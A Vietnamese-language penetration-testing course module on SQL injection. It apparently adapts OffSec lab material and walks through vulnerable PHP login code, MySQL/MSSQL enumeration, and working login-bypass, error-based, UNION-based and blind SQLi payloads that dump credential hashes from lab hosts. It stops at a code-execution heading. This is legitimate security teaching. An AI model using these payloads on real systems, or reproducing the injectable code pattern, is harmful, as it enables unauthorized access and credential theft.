

# SQL Injection Attacks

# SQL Injection Attacks

---

Trong Module học này, chúng ta sẽ tìm hiểu các đơn vị kiến thức sau:

- **Lý thuyết SQL và các loại cơ sở dữ liệu**
- **Khai thác SQL thủ công**
- **Tự động hóa tấn công SQL**

SQL injection (SQLi) là một trong những nhóm lỗ hổng quan trọng nhất trên ứng dụng web, xuất hiện rất phổ biến trong nhiều hệ thống. Hiện tại, SQLi đứng **thứ ba** trong danh sách **OWASP Top 10 Application Security Risks**. Nó được phân loại là: **A03:2021 – Injection**.

Nói một cách tổng quát, lỗ hổng SQLi cho phép kẻ tấn công can thiệp vào các truy vấn SQL được trao đổi giữa ứng dụng web và cơ sở dữ liệu. Các lỗ hổng SQL thường cho phép kẻ tấn công **mở rộng truy vấn ban đầu** để truy cập các bảng hoặc dữ liệu mà ứng dụng bình thường **không cho phép truy cập**.

Trong Module này, chúng ta sẽ minh họa cách:

- **Liệt kê thông tin SQL (SQL enumeration)**
- **Xác định loại cơ sở dữ liệu (database fingerprinting)**
- **Khai thác SQLi thủ công và tự động**

---

# 1. Lý thuyết SQL và Cơ sở dữ liệu

---

Đơn vị kiến thức này bao gồm các mục tiêu học tập sau:

- **Ôn lại các kiến thức nền tảng về lý thuyết SQL**
- **Tìm hiểu về các loại cơ sở dữ liệu (Database types) khác nhau**
- **Hiểu các cú pháp SQL khác nhau**

---

## 1.1. Ôn lại lý thuyết SQL

---

**Structured Query Language (SQL)** được phát triển chuyên biệt để quản lý và tương tác với dữ liệu lưu trữ bên trong các cơ sở dữ liệu quan hệ (relational databases). SQL có thể được dùng để **truy vấn (query), chèn (insert), sửa (modify), hoặc thậm chí xóa (delete)** dữ liệu, và trong một số trường hợp còn có thể **thực thi lệnh hệ điều hành**.

Vì một phiên bản SQL (SQL instance) thường có rất nhiều **quyền quản trị**, chúng ta sẽ sớm thấy rằng việc cho phép chạy các truy vấn SQL tùy ý có thể là một **rủi ro bảo mật rất nghiêm trọng**.

Các ứng dụng web hiện đại thường được thiết kế xoay quanh một giao diện hướng tới người dùng, gọi là **frontend**, thường được tạo bằng các khối mã HTML, CSS và JavaScript.

Sau khi client (trình duyệt người dùng) tương tác với frontend, dữ liệu sẽ được gửi đến **lớp ứng dụng backend** chạy trên máy chủ. Có nhiều framework khác nhau có thể được dùng để xây dựng backend, viết bằng nhiều ngôn ngữ như **PHP, Java, Python**, v.v.

Tiếp theo, **mã backend** sẽ tương tác với dữ liệu trong cơ sở dữ liệu theo nhiều cách, ví dụ như **lấy mật khẩu tương ứng với một tên người dùng nhất định**.

Cú pháp SQL (SQL syntax), các lệnh và hàm SQL có thể **khác nhau** tùy thuộc vào **hệ quản trị cơ sở dữ liệu quan hệ** mà chúng được thiết kế cho.

Các hệ quản trị phổ biến nhất là **MySQL, Microsoft SQL Server, PostgreSQL và Oracle**, và chúng ta sẽ xem xét các đặc điểm của từng loại.

Ví dụ về truy vấn MySQL đơn giản

Ví dụ, hãy xây dựng một truy vấn MySQL đơn giản để duyệt bảng `users` và lấy ra bản ghi của một người dùng cụ thể.

Chúng ta có thể dùng câu lệnh **SELECT** để yêu cầu cơ sở dữ liệu trả về **tất cả (*) các bản ghi** từ một vị trí (bảng) được chỉ định bởi từ khóa **FROM**, theo sau là đối tượng cần truy vấn, trong trường hợp này là bảng `users`.

Cuối cùng, chúng ta yêu cầu cơ sở dữ liệu **lọc** chỉ những bản ghi thuộc về người dùng `leon`.

```sql
SELECT * FROM users WHERE user_name='leon';
```

                                                       *Listing 1 - Truy vấn SQL duyệt bảng users*

Để tự động hóa chức năng, các ứng dụng web thường **nhúng truy vấn SQL trực tiếp vào mã nguồn** của chúng.

Truy vấn SQL nhúng trong mã PHP backend

Chúng ta có thể hiểu rõ hơn khái niệm này bằng cách xem xét đoạn code PHP backend sau, chịu trách nhiệm **kiểm tra thông tin đăng nhập** do người dùng gửi lên:

```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

                         *Listing 2 - Truy vấn SQL được nhúng trong mã nguồn PHP xử lý đăng nhập*

Trong đoạn code trên, ta thấy đây là một truy vấn SQL **gần như được “tiền biên dịch” (semi-precompiled)**, dùng để tìm trong bảng `users` bản ghi có **tên người dùng** và **mật khẩu tương ứng** với giá trị mà người dùng đã nhập.

Hai giá trị này được lưu lần lượt trong **biến `$uname` và `$passwd`**. Chuỗi truy vấn được gán vào biến `$sql_query` và sau đó được dùng để truy vấn cơ sở dữ liệu thông qua hàm `mysqli_query`, kết quả truy vấn được lưu vào `$result`.

Lưu ý rằng chữ **`i`** trong hàm `mysqli_query` là viết tắt của **“improved”** (phiên bản cải tiến), và **không liên quan** đến lỗ hổng (trong SQLi, chữ `i` là viết tắt của **injection** – chèn/tiêm mã).

Nơi lỗ hổng xuất hiện

Đến đây, chúng ta mới chỉ mô tả một tương tác rất cơ bản giữa mã PHP backend và cơ sở dữ liệu.

Khi xem lại đoạn code trên, ta sẽ thấy rằng cả hai biến `user_name` và `password` đều được lấy **trực tiếp từ yêu cầu POST** của người dùng và **đưa thẳng vào chuỗi `$sql_query` mà không qua bất kỳ kiểm tra nào**.

Điều này có nghĩa là **kẻ tấn công có thể thay đổi câu lệnh SQL cuối cùng** trước khi nó được thực thi bởi cơ sở dữ liệu.

Kẻ tấn công có thể **chèn một đoạn SQL độc hại** vào trong trường `user` hoặc `password` để **làm sai lệch logic ứng dụng** so với dự định ban đầu.

Ví dụ về dữ liệu đầu vào gây lỗi

Hãy xem ví dụ sau:

- Khi người dùng gõ **`leon`**, SQL server sẽ tìm username `"leon"` và trả về kết quả.
    
    Để tìm trong database, SQL server sẽ chạy truy vấn:
    
    ```sql
    SELECT * FROM users WHERE user_name='leon';
    ```
    
- Nhưng nếu người dùng nhập:
    
    ```
    leon'+!@#$
    ```
    
    thì SQL server sẽ chạy truy vấn:
    
    ```sql
    SELECT * FROM users WHERE user_name='leon'+!@#$;
    ```
    

Trong đoạn code của chúng ta **không có bất kỳ cơ chế kiểm tra hay lọc bỏ ký tự đặc biệt nào** trước khi ghép chuỗi, và **chính sự thiếu lọc dữ liệu đầu vào này** là nguyên nhân dẫn đến lỗ hổng.

Chúng ta sẽ khám phá cách lợi dụng các tình huống như vậy để tấn công trong những phần tiếp theo.

---

## 1.2. Các loại cơ sở dữ liệu và đặc điểm

---

Khi kiểm thử một ứng dụng web, đôi khi chúng ta **không biết trước** hệ quản trị cơ sở dữ liệu (DBMS) đang chạy bên dưới là gì, nên chúng ta cần sẵn sàng để tương tác với **nhiều biến thể SQL khác nhau**.

Nhiều biến thể cơ sở dữ liệu khác nhau về **cú pháp, hàm, và tính năng**. Trong phần này, chúng ta sẽ tập trung vào hai biến thể phổ biến nhất:

- **MySQL**
- **Microsoft SQL Server (MSSQL)**

Hai biến thể SQL mà chúng ta tìm hiểu trong Module này **không chỉ giới hạn** ở các cài đặt on-premise (cài trên máy chủ tại chỗ), mà còn thường thấy trong các **triển khai trên cloud**.

### MySQL

**MySQL** là một trong những hệ quản trị cơ sở dữ liệu được triển khai nhiều nhất, cùng với **MariaDB**, một nhánh (fork) mã nguồn mở của MySQL.

Để khám phá những kiến thức cơ bản về MySQL, chúng ta có thể kết nối tới **instance MySQL từ xa** từ máy Kali cục bộ.

Sử dụng lệnh `mysql`, ta sẽ kết nối đến SQL instance từ xa bằng cách chỉ định username là `root` và password, cùng với cổng mặc định của MySQL là **3306**:

```bash
kali@kali:~$ mysql -u root -p'root' -h 192.168.50.16 -P 3306

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

                                                  *Listing 3 - Kết nối tới MySQL instance từ xa*

Tại **console MySQL**, chúng ta có thể chạy hàm `version()` để lấy **phiên bản** của SQL instance đang chạy:

```sql
MySQL [(none)]> select version();
+-----------+
| version() |
+-----------+
| 8.0.21    |
+-----------+
1 row in set (0.107 sec)
```

                                                 *Listing 4 - Lấy phiên bản của database MySQL*

Chúng ta cũng có thể kiểm tra **user hiện tại của phiên làm việc** thông qua hàm `system_user()`, hàm này trả về **username và hostname** của kết nối MySQL:

```sql
MySQL [(none)]> select system_user();
+--------------------+
| system_user()      |
+--------------------+
| root@192.168.20.50 |
+--------------------+
1 row in set (0.104 sec)
```

                                                    *Listing 5 - Kiểm tra user hiện tại của session*

Truy vấn trên cho thấy chúng ta đang đăng nhập với user **root của database** thông qua một kết nối từ địa chỉ **192.168.20.50**.

> Lưu ý: user root ở đây là root của database, không phải user root hệ điều hành.
> 

Giờ chúng ta có thể **liệt kê tất cả các database** đang có trong phiên MySQL bằng cách dùng lệnh `show` kèm từ khóa `databases`:

```sql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| test               |
+--------------------+
5 rows in set (0.107 sec)
```

                                                      *Listing 6 - Liệt kê tất cả các database hiện có*

Ví dụ, hãy thử **lấy mật khẩu của user `offsec`** trong database `mysql`.

Bên trong database `mysql`, ta sẽ dùng câu lệnh **SELECT** để lấy các giá trị `user` và `authentication_string` từ bảng `mysql.user`. Sau đó, ta lọc kết quả bằng mệnh đề **WHERE** để chỉ giữ lại bản ghi thuộc user `offsec`:

```sql
MySQL [mysql]> SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
+--------+------------------------------------------------------------------------+
| user   | authentication_string                                                  |
+--------+------------------------------------------------------------------------+
| offsec | $A$005$?qvorPp8#lTKH1j54xuw4C5VsXe5IAa1cFUYdQMiBxQVEzZG9XWd/e6|
+--------+------------------------------------------------------------------------+
1 row in set (0.106 sec)
```

                                                    *Listing 7 - Xem mật khẩu được mã hóa của user*

Để tăng tính bảo mật, mật khẩu của user được lưu trong trường `authentication_string` dưới dạng **hash sử dụng thuật toán Caching-SHA-256**.

**Password hash** là dạng biểu diễn đã được mã hóa (băm) của mật khẩu plain-text ban đầu. Trong các Module sau, chúng ta sẽ tìm hiểu **cách hash mật khẩu** được tạo ra và **làm sao để đảo ngược / crack hash** nhằm thu được mật khẩu ban đầu.

Sau khi đã nói về những thứ cơ bản của MySQL, giờ chúng ta chuyển sang **MSSQL**.

### MSSQL

**MSSQL (Microsoft SQL Server)** là một hệ quản trị cơ sở dữ liệu được **tích hợp chặt chẽ với hệ sinh thái Windows**.

Windows có sẵn một công cụ dòng lệnh là **`SQLCMD`**, cho phép chạy các truy vấn SQL trong **Command Prompt**, hoặc thậm chí **từ xa** từ một máy khác.

Trong **Kali Linux** có bộ **Impacket**, một framework Python cho phép tương tác với nhiều giao thức mạng. Trong số đó có hỗ trợ **TDS (Tabular Data Stream)** – giao thức mà MSSQL sử dụng – và được triển khai trong công cụ `impacket-mssqlclient`.

Chúng ta có thể chạy `impacket-mssqlclient` để kết nối tới **máy Windows từ xa đang chạy MSSQL** bằng cách cung cấp **username, password và IP**, kèm theo tham số `-windows-auth`. Tùy chọn này buộc sử dụng **NTLM authentication** (thay vì Kerberos). Chúng ta sẽ tìm hiểu sâu hơn về **Windows authentication** trong các Module sau.

```bash
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```

                                   *Listing 8 - Kết nối tới MSSQL instance từ xa bằng Impacket*

Đầu tiên, hãy kiểm tra **phiên bản hệ điều hành** đang chạy bên dưới bằng cách **SELECT `@@version`**:

> Mỗi hệ quản trị cơ sở dữ liệu đều có cú pháp riêng, chúng ta cần chú ý điều này khi enumeration trong quá trình pentest.
> 

```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT @@version;
...

Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
	Sep 24 2019 13:48:23
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2022 Standard 10.0 <X64> (Build 20348: ) (Hypervisor)
```

                                                       *Listing 9 - Lấy phiên bản Windows OS*

Truy vấn trên trả về **thông tin hữu ích** về phiên bản MSSQL Server đang chạy, cùng với **phiên bản Windows Server** và **build number**.

Khi dùng **SQL Server command-line** như `sqlcmd`, ta phải gửi câu lệnh SQL **kết thúc bằng dấu chấm phẩy `;`**, sau đó là từ khóa **`GO` trên dòng mới**. Tuy nhiên, khi chạy lệnh từ xa như với `impacket-mssqlclient`, ta có thể **bỏ qua `GO`**, vì nó **không thuộc** giao thức TDS của MSSQL.

Để liệt kê tất cả database, chúng ta có thể **select các tên** từ **system catalog**:

```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT name FROM sys.databases;
name
...
master

tempdb

model

msdb

offsec

SQL>
```

                                                *Listing 10 - Kiểm tra các database hiện có*

Vì `master`, `tempdb`, `model` và `msdb` là **các database mặc định**, chúng ta muốn khám phá database **tùy chỉnh** là `offsec`, vì nhiều khả năng nó chứa dữ liệu liên quan đến mục tiêu của chúng ta.

Ta có thể xem database này bằng cách truy vấn bảng `tables` trong **`information_schema`** tương ứng:

```sql
SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT * FROM offsec.information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE
-------------   ------------   ----------   ----------
offsec          dbo            users        b'BASE TABLE'

SQL (SQLPLAYGROUND\Administrator  dbo@master)>
```

                                             *Listing 11 - Xem các bảng có trong database offsec*

Truy vấn trả về bảng **`users`** là bảng duy nhất có trong database, vì vậy ta sẽ kiểm tra nó bằng cách **select tất cả record**. Chúng ta sẽ cần chỉ định **schema `dbo`** giữa tên database và tên bảng:

```sql
SQL>select * from offsec.dbo.users;
username     password
----------   ----------
admin        lab

guest        guest
```

                                                 *Listing 12 - Duyệt các bản ghi trong bảng users*

Bảng `users` chứa các cột **`username`** và **`password`**, và hiện có hai dòng dữ liệu. Truy vấn đưa về **mật khẩu dạng clear-text** cho cả hai user.

Sau khi tìm hiểu **cú pháp cơ bản và đặc trưng** của MySQL và MSSQL, ở phần tiếp theo chúng ta sẽ học cách **khai thác thủ công lỗ hổng SQL injection**.

---

# 2. Khai thác SQL thủ công

---

Đơn vị kiến thức này bao gồm các mục tiêu học tập sau:

- **Xác định thủ công các lỗ hổng SQL Injection**
- **Hiểu payload SQLi dạng UNION**
- **Tìm hiểu payload SQLi dạng Error-based**
- **Hiểu payload SQLi dạng Blind**

Sau khi đã tìm hiểu cú pháp SQL cơ bản của hai hệ quản trị cơ sở dữ liệu phổ biến, giờ chúng ta sẽ khám phá cách **xác định và khai thác** lỗ hổng SQL Injection.

SQLi thường được phát hiện và khai thác bằng **các công cụ tự động** như **sqlmap**.

Tuy nhiên, chúng ta cần phải hiểu **cách kích hoạt lỗ hổng thủ công** trước, để nắm được **cơ chế hoạt động** của SQLi.

---

## 2.1. Xác định SQLi qua payload dạng Error-based

---

Chúng ta sẽ bắt đầu phân tích lỗ hổng dựa trên đoạn mã PHP đã xem trước đó:

```php
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

                                                   *Listing 13 - Mã PHP có lỗ hổng SQL injection*

Vì cả hai tham số `uname` và `password` đều đến từ dữ liệu người dùng cung cấp, chúng ta có thể **kiểm soát biến `$sql_query` và tạo ra một truy vấn SQL khác**.

Trong nhiều trường hợp, SQL injection có thể dẫn đến **bypass đăng nhập**, và đây sẽ là hướng khai thác đầu tiên mà ta khám phá.

### **Payload Error-based**

Bằng cách **ép đóng dấu nháy đơn** ở giá trị `uname`, sau đó thêm đoạn `OR 1=1` và kết thúc bằng ký tự comment `--` cùng với `//`, chúng ta có thể làm **ngưng truy vấn SQL sớm**.

Cú pháp comment của SQL yêu cầu **hai dấu gạch ngang liên tiếp và phải có ít nhất một khoảng trắng phía sau**.

Trong ví dụ của bài học, chuỗi comment được nối thêm `//` để:

- cho dễ nhìn thấy payload
- tránh các trường hợp ứng dụng cắt bỏ khoảng trắng (whitespace truncation)

Payload:

```
offsec' OR 1=1 -- //
```

                                            *Listing 14 - Payload kiểm tra SQLi bypass đăng nhập*

Khi gửi payload vào form, ứng dụng PHP sẽ tạo truy vấn như sau:

```sql
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```

                                                     *Listing 15 - Truy vấn đã bị chèn lệnh SQL*

Vì mệnh đề `OR 1=1` luôn **đúng**, nên điều kiện WHERE sẽ trả về **bản ghi đầu tiên trong bảng users**, bất kể thông tin đăng nhập có đúng hay không.

Do không có kiểm tra bổ sung nào khác, ta có thể **bypass đăng nhập** và giành quyền truy cập.

### **Kiểm tra trên ứng dụng thực tế**

Truy cập:

```
http://192.168.50.16
```

Nhập username **offsec**, password **jam**, rồi nhấn Submit → kết quả là lỗi *Invalid Password*.



Hãy thử thêm ký tự `'` vào username để test xem ứng dụng có phản hồi lỗi SQL không.

Nếu có lỗi, nghĩa là **ta đang tương tác trực tiếp với SQL server** → rất khả năng có SQLi.

Khi thêm `'`, ta nhận được **SQL syntax error**, chứng tỏ ứng dụng bị lỗi SQL Injection.


### **Tiếp tục thử payload bypass**

Dán payload:

```
offsec' OR 1=1 -- //
```


Nhấn Submit → kết quả là **Authentication Successful** → tấn công thành công.


### **Nhúng truy vấn lỗi để lấy thông tin database**

Vì truy vấn có thể bị dừng sớm và thay đổi, ta có thể nhúng **truy vấn SQL tùy ý**, ví dụ:

```
' or 1=1 in (select @@version) -- //
```

                                                          *Listing 16 - Payload dạng error-based*

Trong trường hợp này, ta yêu cầu MySQL trả về **phiên bản MySQL**.

MySQL hỗ trợ cả hai dạng:

- `version()`
- `@@version`

Dán payload vào Username → trang web hiển thị:


```
MySQL version: 8.0.28
```

Điều này nghĩa là ứng dụng:

- chạy truy vấn SQL ta tạo
- phản hồi kết quả lỗi (error output) lên giao diện
    
    → đây chính là **Error-based SQL Injection in-band**.
    

### **Thử dump bảng users**

Payload:

```
' OR 1=1 in (SELECT * FROM users) -- //
```

                                                        *Listing 17 - Thử lấy toàn bộ bảng users*


Ứng dụng trả về lỗi:

→ nghĩa là **truy vấn chỉ cho phép trả về một cột**, không phải nhiều cột.

### **Thử chỉ lấy cột password**

```
' or 1=1 in (SELECT password FROM users) -- //
```


Ứng dụng lúc này trả về:

- nhiều lỗi SQL
- và **các chuỗi hash giống dạng MD5**

Tuy nhiên, ta **không biết hash nào thuộc user nào**.

### **Thêm điều kiện WHERE để lấy password của user cụ thể**

```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

                                                                   *Listing 18 - Payload nâng cấp*


Sau khi gửi payload, ta nhận được:

- giá trị hash mật khẩu của user admin
- cùng với lỗi SQL in-band như thường lệ

Kết luận:

**Ta đã lấy được thông tin mật khẩu (đã hash) của từng user bằng error-based SQLi.**

---

## 2.2. Payloads dựa trên UNION

---

Bất cứ khi nào chúng ta làm việc với SQL injection in-band và kết quả của truy vấn được hiển thị cùng với giá trị mà ứng dụng trả về, chúng ta cũng nên kiểm tra các SQL injection dựa trên UNION.

Từ khóa UNION hỗ trợ khai thác vì nó cho phép thực thi một câu lệnh SELECT bổ sung và cung cấp kết quả trong cùng một truy vấn, do đó nối hai truy vấn thành một câu lệnh.

Để các tấn công UNION SQLi hoạt động, trước tiên chúng ta cần thỏa mãn hai điều kiện:

1. Truy vấn UNION được chèn vào phải bao gồm cùng số lượng cột như truy vấn gốc.
2. Các kiểu dữ liệu phải tương thích giữa từng cột.

Để minh họa khái niệm này, hãy kiểm tra một ứng dụng web với truy vấn SQL được cấu hình sẵn như sau:

```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

                                                     *Listing 19 - Truy vấn SQL dễ bị tấn công*

Truy vấn trên lấy tất cả các bản ghi từ bảng customers. Nó cũng bao gồm từ khóa LIKE để tìm bất kỳ giá trị name nào chứa đầu vào của chúng ta và theo sau là số ký tự bất kỳ, như được quy định bởi toán tử phần trăm (%).

Chúng ta có thể tương tác với ứng dụng dễ bị tấn công bằng cách truy cập [http://192.168.50.16/search.php](http://192.168.50.16/search.php) từ máy Kali của mình. Khi trang được tải, chúng ta có thể nhấp SEARCH để lấy tất cả dữ liệu từ bảng customers.


                                                *Figure 9: Loading the Customer Search Portal*

Trước khi xây dựng bất kỳ chiến lược tấn công nào, chúng ta cần biết số lượng cột chính xác trong bảng mục tiêu. Mặc dù đầu ra ở trên cho thấy có bốn cột, chúng ta không nên giả định dựa trên bố cục ứng dụng, vì có thể có thêm các cột khác.

Để tìm số lượng cột chính xác, chúng ta có thể gửi truy vấn chèn sau vào thanh tìm kiếm:

```
' ORDER BY 1-- //
```

                                                     *Listing 20 - Xác minh số lượng cột chính xác*

Câu lệnh trên sắp xếp kết quả theo một cột cụ thể, nghĩa là nó sẽ thất bại khi cột được chọn không tồn tại. Tăng giá trị cột lên một mỗi lần, chúng ta sẽ phát hiện rằng bảng có năm cột vì sắp xếp theo cột thứ sáu trả về lỗi.


                                               *Figure 10: Finding the Exact Number of Columns*

Với thông tin này, chúng ta có thể thử cuộc tấn công đầu tiên bằng cách liệt kê tên cơ sở dữ liệu hiện tại, người dùng và phiên bản MySQL.

```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

                                       *Listing 21 - Liệt kê cơ sở dữ liệu qua SQL UNION Injection*

Vì chúng ta muốn lấy tất cả dữ liệu từ bảng customers, chúng ta sẽ sử dụng dấu phần trăm theo sau là dấu nháy đơn để đóng tham số tìm kiếm. Sau đó, chúng ta bắt đầu truy vấn chèn bằng câu lệnh UNION SELECT để đổ tên cơ sở dữ liệu hiện tại, người dùng và phiên bản MySQL vào các cột thứ nhất, thứ hai và thứ ba, tương ứng, để lại hai cột còn lại là null.


                                                        *Figure 11: Enumerating the Database*

Sau khi triển khai tấn công, chúng ta sẽ thấy rằng tên người dùng và phiên bản DB xuất hiện trên dòng cuối cùng, nhưng tên cơ sở dữ liệu hiện tại thì không. Điều này xảy ra vì cột 1 thường được dành cho trường ID có kiểu dữ liệu số nguyên, nghĩa là nó không thể trả về giá trị chuỗi mà chúng ta yêu cầu thông qua câu lệnh SELECT database().

Ứng dụng web rõ ràng loại bỏ đầu ra từ cột đầu tiên vì ID thường không phải là thông tin hữu ích cho người dùng cuối.

Với điều này trong tâm trí, hãy cập nhật truy vấn của chúng ta bằng cách dịch chuyển tất cả các hàm liệt kê sang các vị trí bên phải nhất, tránh bất kỳ lỗi không tương thích kiểu dữ liệu nào.

```
' UNION SELECT null, null, database(), user(), @@version  -- //
```

                                                     *Listing 22 - Sửa truy vấn UNION được chèn*

Vì chúng ta đã xác minh đầu ra mong đợi, chúng ta có thể bỏ dấu phần trăm và chạy lại truy vấn đã chỉnh sửa.


                                                                 *Figure 12: Fixing the SQL Query*

Lần này, cả ba giá trị đều trả về chính xác, bao gồm offsec là tên cơ sở dữ liệu hiện tại.

Hãy mở rộng kỹ thuật của chúng ta và xác minh xem có bảng nào khác tồn tại trong cơ sở dữ liệu hiện tại hay không. Chúng ta có thể bắt đầu bằng cách liệt kê schema thông tin của cơ sở dữ liệu hiện tại từ bảng information_schema.columns.

Chúng ta sẽ cố gắng lấy bảng columns từ cơ sở dữ liệu information_schema thuộc về cơ sở dữ liệu hiện tại. Sau đó, chúng ta sẽ lưu đầu ra vào các cột thứ hai, thứ ba và thứ tư, để lại cột thứ nhất và thứ năm là null.

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

                                              *Listing 23 - Lấy bảng và cột của cơ sở dữ liệu hiện tại*

Chạy thử lệnh liệt kê mới của chúng ta cho kết quả bên dưới:


                                     *Figure 13: Dumping the Current Database Tables Structure*

Đầu ra này xác minh rằng ba cột lần lượt chứa tên bảng, tên cột và cơ sở dữ liệu hiện tại.

Thật thú vị, chúng ta phát hiện ra một bảng mới tên users chứa bốn cột, bao gồm một cột tên password.

Hãy tạo một truy vấn mới để đổ bảng users.

```
' UNION SELECT null, username, password, description, null FROM users -- //
```

                                   *Listing 24 - Retrieving Current Database Tables and Columns*

Sử dụng câu lệnh trên, chúng ta sẽ thử lưu đầu ra của username, password và description trong bảng của ứng dụng web.


                                                         *Figure 14: Dumping Users Credentials*

Tuyệt vời! Payload dựa trên UNION của chúng ta đã có thể lấy các username và hash MD5 của toàn bộ bảng users, bao gồm cả tài khoản quản trị. Các giá trị MD5 này là dạng mã hóa của các mật khẩu plain-text, có thể đảo ngược bằng các công cụ phù hợp.

---

## 2.3. Blind SQL Injections

---

Các payload SQLi mà chúng ta đã gặp là in-band, nghĩa là chúng ta có thể lấy nội dung cơ sở dữ liệu của truy vấn bên trong ứng dụng web.

Ngoài ra, blind SQL injection mô tả các tình huống trong đó phản hồi của cơ sở dữ liệu không bao giờ được trả về và hành vi được suy luận bằng logic dựa trên boolean hoặc thời gian.

Ví dụ, blind SQL injection dựa trên boolean chung khiến ứng dụng trả về các giá trị khác nhau và có thể dự đoán bất cứ khi nào truy vấn cơ sở dữ liệu trả về kết quả TRUE hoặc FALSE, do đó có tên là “boolean”. Những giá trị này có thể được xem trong ngữ cảnh của ứng dụng.

Mặc dù “boolean-based” có vẻ không phải là một biến thể blind SQLi, đầu ra được dùng để suy luận kết quả đến từ ứng dụng web, chứ không phải từ chính cơ sở dữ liệu.

Blind SQL injection dựa trên thời gian suy luận kết quả truy vấn bằng cách yêu cầu cơ sở dữ liệu chờ một khoảng thời gian xác định. Dựa trên thời gian phản hồi, kẻ tấn công có thể kết luận câu lệnh là TRUE hay FALSE.

Ứng dụng dễ bị tấn công của chúng ta ([http://192.168.50.16/blindsqli.php](http://192.168.50.16/blindsqli.php)) bao gồm một phần mã bị ảnh hưởng bởi cả hai loại lỗ hổng blind SQL injection.

Sau khi chúng ta đăng nhập bằng thông tin xác thực offsec và lab, chúng ta sẽ gặp trang sau:


                                                            *Figure 15: Testing for Blind SQLi*

Xem xét kỹ URL, chúng ta sẽ nhận thấy rằng ứng dụng nhận tham số user làm đầu vào, mặc định là offsec vì đây là người dùng hiện đang đăng nhập. Ứng dụng sau đó truy vấn bản ghi của người dùng, trả về các giá trị Username, Password Hash và Description.

Để kiểm tra SQLi dựa trên boolean, chúng ta có thể thử nối payload dưới đây vào URL:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

                                                *Listing 25 - Testing for boolean-based SQLi*

Vì 1=1 luôn TRUE, ứng dụng sẽ trả về các giá trị chỉ khi người dùng tồn tại trong cơ sở dữ liệu. Sử dụng cú pháp này, chúng ta có thể liệt kê toàn bộ cơ sở dữ liệu cho các username khác hoặc thậm chí mở rộng truy vấn SQL của mình để kiểm tra dữ liệu trong các bảng khác.

Chúng ta có thể đạt kết quả tương tự bằng cách sử dụng payload SQLi dựa trên thời gian:

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

                                                    *Listing 26 - Testing for time-based SQLi*

Trong trường hợp này, chúng ta nối một điều kiện IF luôn đúng vào chính câu lệnh nhưng sẽ trả về false nếu người dùng không tồn tại.

Chúng ta biết người dùng offsec đang hoạt động, nên nếu dán payload URL trên vào trình duyệt của máy Kali VM, chúng ta sẽ nhận thấy rằng ứng dụng treo khoảng ba giây.

Góc tấn công này có thể trở nên rất tốn thời gian, vì vậy nó thường được tự động hóa bằng các công cụ như sqlmap, như chúng ta sẽ đề cập trong Đơn vị Học tiếp theo.

---

# 3. Manual and Automated Code Execution

---

Đơn vị Học này bao gồm các Mục tiêu Học tập sau:

- Khai thác cơ sở dữ liệu MSSQL với xp_cmdshell
- Tự động hóa SQL Injection với SQLmap

Tùy thuộc vào hệ điều hành, quyền của dịch vụ, và quyền truy cập hệ thống tệp, lỗ hổng SQL injection có thể được sử dụng để đọc và ghi tệp trên hệ điều hành bên dưới.

Ghi một tệp được tạo cẩn thận chứa mã PHP vào thư mục gốc của máy chủ web sau đó có thể được tận dụng để thực thi mã hoàn toàn.

---

## 3.1. Manual Code Execution

---

